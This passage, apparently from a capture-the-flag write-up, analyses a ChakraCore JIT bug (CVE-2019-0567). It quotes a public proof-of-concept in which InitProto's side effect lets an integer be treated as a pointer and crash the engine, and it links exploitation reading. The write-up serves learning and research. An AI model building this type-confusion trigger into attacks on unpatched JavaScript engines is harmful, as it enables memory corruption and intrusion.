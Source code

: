 Searching for Chakra InitProto on google we can find several CVE.
One of them is CVE-2019-0567 reported by lokihardt from Google Security who is also the author of this PoC

```javascript

PoC for InitProto:

function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, 0x1234); // <-- This value is used as a pointer

    print(o.a);
}

main();
```

If you feed the PoC into the challenge binary you'll get a SegFault before the print function terminates when libChakraCore.so tries to access [rax] with rax = 0x100...1234 

(the 0x1 is used to differentiate numbers from pointers)

lokihardt explains that if we set `proto` as the prototype of `tmp`, `proto`'s layout in memory changes. 

The jit compiler didn't take this side effect into account at the time.

The challenge is basically a revert of the fixes that Microsoft applied.

# Useful Reading

So to understand this issue a little bit better I read some general ChakraCore exploitation material such as 

- [Bruno Keith Presentation on the subject](https://github.com/bkth/Attacking-Edge-Through-the-JavaScript-Compiler)

And also some specific analysis of this bug and two very similar bugs also discovered by lokihardt (basically corresponding to the other 3 cases that were not commented out)
